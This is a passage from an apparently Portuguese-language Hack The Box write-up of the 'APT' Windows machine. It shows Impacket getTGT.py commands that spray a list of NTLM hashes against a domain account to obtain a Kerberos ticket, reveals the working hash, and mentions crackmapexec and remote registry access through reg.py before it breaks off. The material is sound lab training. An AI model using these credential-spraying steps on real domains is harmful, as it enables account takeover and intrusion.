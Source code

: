 ```bash
getTGT.py -hashes :2b576acbe6bcfda7294d6bd18041b8fe htb.local/henry.vinson

#>  Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation
#>  Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)

mkdir getTGT_dir
for hash in $(cat hashes); do getTGT.py -hashes :$hash htb.local/henry.vinson > getTGT_dir/$hash &; done
cd getTGT_dir
find . -type f | xargs grep "henry"
#> ./e53d87d42adaa3ca32bdb34a876cbffb:[*] Saving ticket in henry.vinson.ccache
```

> henry.vinson:e53d87d42adaa3ca32bdb34a876cbffb

Supostamente, este ficheiro.ccache é o tal TGT que dá para usar para fazer login depois. Mas não consegui. Penso que não consegui porque op usuário não tem capacidade de "psexec". Mas não tenho a certeza porque foi a primeira vez que tentei...

vamos validar as credenciais com crackmapexec (atenção que se tem de sair da pasta o existe o nome do ficheiro igual ao hash, porque o crackmapexec prioriza nomes de ficheiros, perdi 5 minutos à conta disto looool)

![crackmapexec henry.vinson](Assets/HTB-Windows-Insane-APT/crackmapexec_henry.png)

## reg.py

Agora vem outra parte tricky! Não me é possível ter uma shell com evil-winrm, não tenho capacidade de escrita em nenhum recurso compartilhado. Mas ainda se pode fazer coisas... o reg.exe do windows é um programa que permite ver/alterar registos do windows pela linha de comando. É quase tão poderoso quando o regedit.exe, que é a aplicação GUI para ver/alterar os registos. Com esta máquina, descobri que o programa reg.exe tem capacidade de ver e alterar registos remotamente, para que os administradores possam trabalhar comodamente de chinelos nos seus lares loool. Fora de brincadeira, isso é bem prático para administradores, e para atacantes também =)

o reg.py, é outro recurso do Impacket, que simula uma petição do reg.exe com as credenciais e tudo isso, como se eu estivesse a executar o comando do windows devidamente autenticado... Indo direto ao que nos interessa, podemos encontrar isto:
